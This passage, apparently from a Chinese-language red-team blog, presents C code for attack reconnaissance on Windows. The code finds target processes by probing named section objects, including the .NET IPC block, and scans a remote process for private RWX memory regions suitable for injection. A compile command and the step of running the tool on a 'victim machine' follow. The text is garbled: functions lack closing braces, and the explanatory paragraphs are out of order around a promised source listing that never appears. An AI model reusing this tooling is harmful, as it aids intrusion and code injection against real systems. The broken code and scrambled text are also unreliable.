  sName.Buffer = (PWSTR)objPath;
  sName.Length = wcslen(objPath) * sizeof(WCHAR);
  sName.MaximumLength = sName.Length + sizeof(WCHAR);

  InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
  NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
  if (NT_SUCCESS(status)) {
  CloseHandle(sHandle);
  break;
  }
  }
  }
  return current;

int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
  addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

  // look for RWX memory regions which are not backed by an image
  if (mbi.Protect == PAGE_EXECUTE_READWRITE
  && mbi.State == MEM_COMMIT
  && mbi.Type == MEM_PRIVATE)

  printf("found RWX memory: 0x%x - %#7llu bytes region\n", mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;

int main(int argc, char* argv[]) {
  char procNameTemp[MAX_PATH];
  HANDLE h = NULL;
  int pid = 0;
  h = findMyProc(argv[1]);
  if (h) GetProcessImageFileNameA(h, procNameTemp, MAX_PATH);
  pid = GetProcessId(h);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  findRWX(h);
  CloseHandle(h);
  
  return 0;

```

如你所见，逻辑很简单：检查节名称并尝试打开它。

### 演示 3

我们来看看第三个例子的实际效果。编译它：

```bash
x86_64-w64-mingw32-g++ hack3.c -o hack3.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-lpsapi -lshlwapi -w
```

{width="80%"}

然后，在受害机器上运行它：

```powershell
.\hack3.exe OneDrive.exe
```

{width="80%"}

我们可以看到一切又一次完美工作了！

如果有人在真实的恶意软件和 APT 中看到过类似的技巧，请告诉我，也许我没有看仔细。

在我看来，这似乎是一项攻击者已经知晓的技术。

我希望这篇文章能让蓝队意识到这项有趣的进程调查技术，同时为红队的武器库增添一件武器。

在我们的例子中 PID = 3156。

`\BaseNamedObjects\Cor_Private_IPCBlock_v4_3156`

只需把进程 ID 这个 int 转换成 UNICODE STRING 并连接起来，然后尝试查找该节。

那么，这段逻辑（在受害系统中查找 .NET 进程）的完整源代码如下：

如你所见，我们可以用同样的技巧：按名称检查节。

我只是想说明，你可以检查任意进程，并尝试在节名称中找到一些指示性线索。
